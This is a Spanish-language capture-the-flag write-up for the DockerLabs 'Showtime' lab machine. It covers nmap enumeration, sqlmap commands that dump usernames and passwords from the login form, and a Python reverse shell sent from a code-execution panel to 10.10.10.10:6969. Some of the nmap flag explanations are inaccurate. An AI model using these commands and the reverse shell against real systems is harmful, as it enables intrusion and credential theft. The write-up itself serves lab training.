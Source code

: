 # Showtime

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Balulero`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

Tenemos 2 puertos abiertos, el 22 y el 80.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_1.jpg)    

Abrimos la web y en la home no encontramos nada interesante.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_2.jpg)     

Vemos que hay un enlace a Login y lo abrimos y vemos que nos encontramos un panel de autenticacíon.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_3.jpg)    

Utilizaremos la herramienta **sqlmap** para intentar extrapolar usernames y password.  
Ejecutaremos el comando:  

`sudo sqlmap -u http://172.17.0.2/login_page/index.php --forms --dbs --batch`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_4.jpg)    

Ahora damos el comando:  

`sudo sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users --tables --batch`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_5.jpg)      

Seguimos la enumeración digitando:  

`sudo sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios --columns --batch`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_6.jpg)     

Y por último:  

`sudo sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios -C username,password -dump --batch`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_7.jpg)      

Perfecto!  
Tenemos 3 usuarios con sus relativas contraseñas.  

Probamos a logearnos pero solamente con el usaurio joe podemos acceder a un panel que nos permite ejecutar comandos python.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_8.jpg)       

Ahora probamos a ver si funciona.  
Ejecutamos este comando:  

```
import os  
os.system ("ls")
```
![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_9.jpg)    

Perfecto, parece funcionar.  
Ahora lo que podemos intentar hacer es lanzarnos una reverse shell hacía nuestra maquina kali.
Nos pondremos a la escucha en en puerto 6969 de la nuestra kali y ejecutaremos el comando `nc -lvnp 6969`.   
Ahora ejecutaremo este cógido en el panel:  

```
import socket
import os
import subprocess

# Configura l'IP e la porta di destinazione
ip = "10.10.10.10"
port = 6969

# Crea il socket e connettiti al server
s = socket.socket()
s.connect((ip, port))

# Reindirizza stdin, stdout, stderr al socket
os.dup2(s.fileno(), 0)  # stdin
os.dup2(s.fileno(), 1)  # stdout
os.dup2(s.fileno(), 2)  # stderr

# Esegui la shell
subprocess.call("/bin/sh")
```
![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_10.jpg)    

Perfecto!  
Hemos obtenido una reverse shell.  
Ahora le aplicamos un tratamiento para poder trabajar más comodos.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_11.jpg)  

Probamos a dar los tipicos comandos para intentar escalar de privilegios, pero no vemos nada interesante.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_12.jpg)   



